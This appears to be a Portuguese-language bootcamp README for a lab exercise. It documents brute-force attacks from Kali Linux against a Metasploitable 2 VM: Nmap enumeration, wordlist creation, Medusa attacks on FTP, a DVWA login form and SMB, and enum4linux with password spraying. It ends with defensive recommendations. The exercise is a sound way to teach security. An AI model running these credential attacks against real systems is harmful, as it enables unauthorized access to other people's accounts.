 # BootcampDIO-SantanderCiberseguranca2025
Simulação de ataque brute force utilizando Kali Linux e Metasploitable 2

Kali Linux e Metasploitable 2 configurados na mesma rede (192.168.1.0/24) para se comunicarem (rodar o comando "ip a" ou "ifconfig" nas duas VMs para obter o IP de cada VM)
IP Kali Linux: 192.168.1.4
IP Metasploitable 2: 192.168.1.5

ping feito do Kali Linux para o Metasploitable 2 com o objetivo de confirmar a conexão entre as VMs 
Comando: ping -c 4 192.168.1.5 

1 etapa: enumeração de portas abertas | ferramenta usada: Nmap 7.95
Objetivo: identificar porta FTP aberta 
Comando: nmap -sV -p 21,22,80,445,139 192.168.1.5

Portas abertas: 
21 - serviço: FTP - versão: vsftpd 2.3.4 
22 - serviço: SSH - versão: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80 - serviço: HTTP - versão: Apach httpd 2.2.8
139 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X 
445 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X 

Identificado que a porta FTP esta aberta usa-se o comando: "ftp (IP da VM Metasploitable)" para confirmar que o serviço esta ativo 

2 etapa: ataque brute force | ferramenta usada: Medusa v2.3

Criação de wordlists:
Para usernames: arquivo usernames.txt contendo as seguintes palavras: msfadmin, user, service, root, admin, test, guest, info, adm, administrator, ftp, admin123, 123admin e qwerty
Comando: echo -e 'msfadmin\nuser\nservice\nroot\nadmin\ntest\nguest\ninfo\nadm\nadministrator\nftp\nadmin123\n123admin\nqwerty' > usernames.txt 

Para senhas: arquivo pass.txt com as seguintes palavras: 123456, password, qwerty, msfadmin, admin, Welcome123, admin123, root, 123admin, pass123
Comando: echo -e '123456\npassword\nqwerty\nmsfadmin\nadmin\nWelcome123\nadmin123\nroot\n123admin\npass123' > pass.txt

Comando brute force: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M ftp -t 10
Resultado - usuario: msfadmin | senha: msfadmin

- Brute force em formulário de login em sistema web (DVWA) -

Comando:
medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 10

Resultado - usuario: admin | senha: password 

- Ataque em cadeia, enumeração smb + password spraying -

Enumeração de usuários usando Enum4Linux:
Comando: enum4linux -a 192.168.1.5 | tee enum4_output.txt 

Password spraying usando Medusa:
Comando: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M smbnt -t 2 -T 50

Resultado - usuario: msfadmin | senha: msfadmin 

Verificando acesso ao smb:
Comando: smbclient -L //192.168.1.5 -U msfadmin 

- Vulnerabilidades: senhas fracas e iguais ao campo user
- Soluções: Implementar 2FA/MFA e recomendar ao usuário que utilize senhas fortes, bloqueio de IPs para múltiplas tentativas de logins, monitoramento de logs e segmentação da rede
Recomendações para criação de senhas:
mínimo de 12 caracteres, utlizar letras maiúsculas (A-Z) e minúsculas (a-z), utlizar símbolos (!, @, #, $, %, &, *), evitar informações pessoais e organizacionais.





